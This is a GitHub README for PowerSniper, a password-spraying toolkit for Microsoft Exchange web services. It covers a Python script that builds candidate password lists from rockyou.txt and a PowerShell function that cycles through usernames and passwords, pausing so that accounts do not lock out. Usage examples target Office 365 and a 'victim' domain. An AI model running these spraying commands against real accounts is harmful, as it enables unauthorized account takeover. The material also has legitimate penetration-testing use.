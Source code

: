 # PowerSniper
Password spraying script and helper for creating password lists.

The Python script uses configurable parameters to extract complex passwords from a password list such as rockyou.txt.  It then analyzes the Damerau-Levenshtein distance between that password and a list of common passwords (the text file in this repository is the top 20 most common rockyou passwords that could be easily modified to be a complex password, i.e. not the one's that are all digits).  The script is configurable for the maximum distance to keep a password, with a default of 4, and will output results to a CSV file.

The PowerShell script loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

PowerSniper supports password spraying against the following services at this time:

<ul>
<li>Outlook Web Access</li>
<li>Outlook Anywhere</li>
<li>ActiveSync</li>
</ul>

The code that loads the Microsoft.Exchange.WebServices.dll for Outlook Anywhere authentication was found in the MailSniper tool (https://github.com/dafthack/MailSniper) created by @dafthack.

Requirements
============
passdist.py requires jellyfish

Usage
=====
<pre>
usage: rockdist.py [-h] --wordlist WORDLIST --toplist TOPLIST [--output OUTPUT] [--passmin PASSMIN] 
                        [--passmax PASSMAX] [--complex] [--passdist PASSDIST]
                        
  Get the distances between complex passwords and top passwords used

  optional arguments:  
    -h, --help           show this help message and exit  
    --wordlist WORDLIST  the file with the complex rockyou passwords (default: None)  
    --toplist TOPLIST    the file with the top rockyou passwords (default: None)  
    --output OUTPUT      the CSV output of the analysis (default: analysis.csv)  
    --passmin PASSMIN    the minimum size password to choose from (default: 7)  
    --passmax PASSMAX    the maximum size password to choose from (default: 12)  
    --complex            require complex passwords (default: 0)  
    --passdist PASSDIST  the maximum distance between passwords to keep (default: 4)
</pre>

Example passdist.py command:
<pre>
    python passdist.py --wordlist rockyou.txt --toplist toplist_rockyou.txt --output lowdist.csv --passmin 7 
        --passmax 12 --complex --passdist 4
</pre>

<pre>
NAME    
  Invoke-PowerSniper
  
SYNOPSIS    
  This module loops through usernames and passwords and attempts to authenticate with them against various 
  Microsoft Exchange web-based services.
  
    PowerSniper Function: Invoke-PowerSniper    
    Author: Josh Berry (@codewatchorg)    
    License: BSD 3-Clause    
    Required Dependencies: None    
    Optional Dependencies: None

SYNTAX    
  Invoke-PowerSniper [[-uri] &lt;Object&gt;] [[-svc] &lt;Object&gt;] [[-userlist] &lt;Object&gt;] 
      [[-passlist] &lt;Object&gt;] [[-sos] &lt;Object&gt;] [[-lockout] &lt;Object&gt;] 
      [[-locktime] &lt;Object&gt;] [&lt;CommonParameters&gt;]

DESCRIPTION    
  This module loops through usernames and passwords and attempts to authenticate with them against 
  various Microsoft Exchange web-based services.  The script supports pausing after a specified 
  lockout count for a specified period of time to prevent account lockouts.

RELATED LINKS    
  https://blogs.technet.microsoft.com/meamcs/2015/03/06/powershell-script-to-simulate-outlook-web-access-url-user-logon/
  http://mobilitydojo.net/2010/03/30/rolling-your-own-exchange-activesync-client/
  http://mobilitydojo.net/2011/08/24/exchange-activesync-building-blocks-first-sync/
  http://mobilitydojo.net/files/EAS_BB/Part_02/HTTP_GET.cs
  https://blogs.technet.microsoft.com/heyscriptingguy/2011/12/02/learn-to-use-the-exchange-web-services-with-powershell/
  http://stackoverflow.com/questions/1582285/how-to-remove-elements-from-a-generic-list-while-iterating-over-it
  https://github.com/dafthack/MailSniper
</pre>

Example PowerSniper.ps1 usage:
<pre>
    # Outlook Anywhere Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc oa -userlist users.txt -passlist passwords.txt 
        -sos false -lockout 6 -locktime 30
    
    # ActiveSync Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc as -userlist users.txt -passlist passwords.txt 
        -sos false -lockout 6 -locktime 30
    
    # Outlook Web Access Test
    Invoke-PowerSniper -uri https://mail.victim.com/owa/auth.owa -svc owa -userlist users.txt 
        -passlist passwords.txt -sos false -lockout 6 -locktime 30
</pre>
